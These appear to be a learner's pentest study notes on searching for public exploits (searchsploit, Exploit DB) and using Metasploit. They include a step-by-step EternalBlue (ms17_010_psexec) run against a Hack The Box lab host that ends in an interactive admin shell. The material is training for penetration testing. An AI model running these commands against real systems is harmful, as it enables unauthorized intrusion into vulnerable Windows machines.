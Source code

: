 * Once we identify the services running on ports identified from our `Nmap` scan, the first step is to look if any of the applications/services have any public exploits. Public exploits can be found for web applications and other applications running on open ports, like `SSH` or `ftp`.

---
### Finding Public Exploits

* Many tools can help us search for public exploits for the various applications and services we may encounter during the enumeration phase. One way is to Google for the application name with `exploit` to see if we get any results.
* A well-known tool for this purpose is `searchsploit`, which we can use to search for public vulnerabilities/exploits for any application. We can install it with the following command:

`sudo apt install exploitdb -y`

* Then, we can use `searchsploit` to search for a specific application by its name, as follows:

`searchsploit openssh 7.2`

* We can also utilize online exploit databases to search for vulnerabilities, like [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com/). The [Intro to Web Applications](https://academy.hackthebox.com/module/details/75) module discusses public vulnerabilities for web applications.

---
### Metasploit Primer

* The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:
	- Running reconnaissance scripts to enumerate remote hosts and compromised targets
	- Verification scripts to test the existence of a vulnerability without actually compromising the target
	- Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
	- Many post-exploitation and pivoting tools
* To run `Metasploit`, we can use the `msfconsole` command:

`msfconsole`

* Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

`search exploit eternalblue`

* **Tip**: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search
* We found an exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

`use exploit/windows/smb/ms17_010_psexec`
OR
`use 3` = use #

* Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

`show options`

* Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have two options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the `set` command:

`set RHOSTS 10.10.10.40`

`set LHOST tun0`

* Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

`check`

* As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

`exploit`

* We have been able to gain admin access to the box and used the `shell` command to drop us into an interactive shell.
* These are basic examples of using `Metasploit` to exploit a vulnerability on a remote server. There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:
	* Granny - **PWNED**
	* Grandpa 
	- Jerry - **PWNED**
	- Blue - **PWNED**
	- Lame - **PWNED**
	- Optimum
	- Legacy
	- Devel
- `Metasploit` is another essential tool to add to our toolkit, but it is crucial not solely to rely on it. To be well-rounded testers, we must know how to best leverage all of the tools available to us, understand why they sometimes fail, and know when to pivot to manual techniques or other tools.